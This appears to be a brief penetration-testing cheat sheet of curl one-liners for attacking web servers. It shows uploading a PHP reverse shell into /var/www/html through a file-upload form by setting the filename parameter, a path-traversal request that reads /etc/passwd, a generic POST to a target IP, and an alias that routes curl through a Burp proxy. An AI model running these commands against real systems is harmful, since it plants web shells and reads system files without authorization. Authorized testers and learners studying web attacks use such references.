 Upload shell using post request and additional parameters:
---
```bash
curl -X POST "$TARGET_URL/file-upload" -F "file=@rev.php.txt" -F "filename=/var/www/html/rev.php"
```


```bash
curl --header "Content-Type: application/json" --request POST -d @data.json http://$TARGET_IP
```

```bash
curl --path-as-is http://$TARGET_URL/../../../../../../../../etc/passwd
```

Use burl (curl through burp on localhost)
```bash
alias burl="curl -x localhost:8080 -k "
```